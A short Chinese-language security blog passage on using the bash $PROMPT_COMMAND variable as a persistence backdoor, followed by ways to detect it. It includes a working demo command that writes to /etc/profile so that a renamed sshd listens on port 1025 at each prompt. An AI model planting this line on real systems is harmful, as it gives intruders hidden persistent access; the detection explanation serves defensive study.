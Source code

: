 环境变量$PROMPT_COMMAND常用于history加固，它用于定义每条命令执行前预先执行的命令。

攻击者通过向$PROMPT_COMMAND内注入恶意操作，可以实现持久化与攻击的效果。这类后门的持久化往往依赖于写登陆加载文件（profile、bashrc）等。

下面是一个简单的demo例子。

```shell
echo "PROMPT_COMMAND=lsof -i:1025 &>/dev/null || ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=1025" >> /etc/profile
```



这种后门隐蔽性较差：

（1）对于持久化到文件内的PROMPT_COMMAND后门，我们只需在登录shell后查看$PROMPT_COMMAND的内容即可暴露攻击命令。

（2）对于持久化到某个进程内的PROMPT_COMMAND后门（eg: PROMPT_COMMAND=ls ping google.com）,我们查看进程目录的environ文件即可暴露攻击命令。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-13_160838.png)
